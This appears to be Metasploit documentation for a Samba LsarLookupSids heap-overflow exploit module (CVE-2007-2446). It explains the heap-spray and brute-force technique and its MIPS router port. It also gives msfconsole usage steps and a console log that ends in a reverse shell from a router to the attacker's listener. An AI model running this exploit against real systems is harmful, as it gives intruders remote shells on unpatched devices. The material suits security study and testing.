 ## Vulnerable Application

  Samba 3.0.0 through 3.0.25rc3 are vulnerable to multiple heap overflows. This module targets a heap overflow in the LsarLookupSids RPC call (CVE-2007-2446), causing an overflow in the function lsa\_io\_trans_name().

  The exploit uses the heap overflow to overwrite a function pointer contained in the metadata of the TALLOC memory allocator, a technique which only works on Samba versions 3.0.21-3.0.24.

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/samba/lsa_transnames_heap`
  3. Do: `show targets` to see the possible targets
  4. Do: `set target #`
  5. Do: `set rhost`
  6. Do: `exploit`

## MIPS port

  This module was ported to exploit the MIPS architecture. After creating a suitable debugging environment using qemu to emulate Samba on a desktop PC the following steps were required:

### MIPS nop generator

  The exploit uses a heap overflow to put a large nop sled in memory to decrease the accuracy needed in the initial redirection of code flow. A nop sled is a large section of contiguous instructions which do nothing. When code flow is redirected to a nop sled it will continue executing the effect-less nops. At the end of the sled the true payload is added and execution will eventually hit this code.

  A nop generator module was created for MIPS by creating a stream of random instructions which create no side-effects e.g. `sll $2, $2, 0`

### Heap address brute force

  The exploit uses a brute force approach to minimize problems with unpredictability in heap layout. The exploit itself is run multiple times, each time targeting a different point in the heap with the change of execution flow. If all goes correctly, the nop sled will be hit and code execution will follow. If the nop sled is missed, the Samba process is likely to crash, which is generally not a problem as a new instance is forked for each incoming connection. In the event of a crash, a new heap address is chosen and exploitation is attempted again.

  When porting the exploit to a new system, the approximate heap layout must be known in order to suitably attempt exploitation across all of the possible heap locations. As the MIPS port targeted a specific router, the heap layout was determined by examining the ranges identified in _/proc/<pid>/maps_

## Scenarios

    msf > use exploit/linux/samba/lsa\_transnames_heap
    msf exploit(lsa\_transnames_heap) > set target 7
    target => 7
    msf exploit(lsa\_transnames_heap) > set rhost 192.168.1.1
    rhost => 192.168.1.1
    msf exploit(lsa\_transnames_heap) > show options

    Module options (exploit/linux/samba/lsa\_transnames_heap):

       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       RHOST    192.168.1.1      yes       The target address
       RPORT    445              yes       The SMB service port
       SMBPIPE  LSARPC           yes       The pipe name to use


    Exploit target:

       Id  Name
       --  ----
       7   Linux Heap Brute Force (OpenWRT MIPS)


    msf exploit(lsa\_transnames_heap) > exploit

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] 192.168.1.1:445 - Creating nop sled....
    [*] 192.168.1.1:445 - Trying to exploit Samba with address 0x55900000...
    [*] 192.168.1.1:445 - Connecting to the SMB service...
    [*] 192.168.1.1:445 - Binding to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Bound to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Calling the vulnerable function...
    [*] 192.168.1.1:445 - Server did not respond, this is expected
    [*] 192.168.1.1:445 - Trying to exploit Samba with address 0x5590f000...
    [*] 192.168.1.1:445 - Connecting to the SMB service...
    [*] 192.168.1.1:445 - Binding to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Bound to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Calling the vulnerable function...
    [*] 192.168.1.1:445 - Server did not respond, this is expected

    ...Some intermediate attempts ommitted...

    [*] 192.168.1.1:445 - Trying to exploit Samba with address 0x55996000...
    [*] 192.168.1.1:445 - Connecting to the SMB service...
    [*] 192.168.1.1:445 - Binding to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Bound to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Calling the vulnerable function...
    [*] 192.168.1.1:445 - Server did not respond, this is expected
    [*] 192.168.1.1:445 - Trying to exploit Samba with address 0x559a5000...
    [*] 192.168.1.1:445 - Connecting to the SMB service...
    [*] 192.168.1.1:445 - Binding to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Bound to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Calling the vulnerable function...
    [*] Command shell session 1 opened (192.168.1.3:4444 -> 192.168.1.1:4175) at 2016-10-31 14:00:33 +0000

    uname -a
    Linux WNR2200 2.6.15 #1 Mon Dec 23 15:58:24 CST 2013 mips unknown

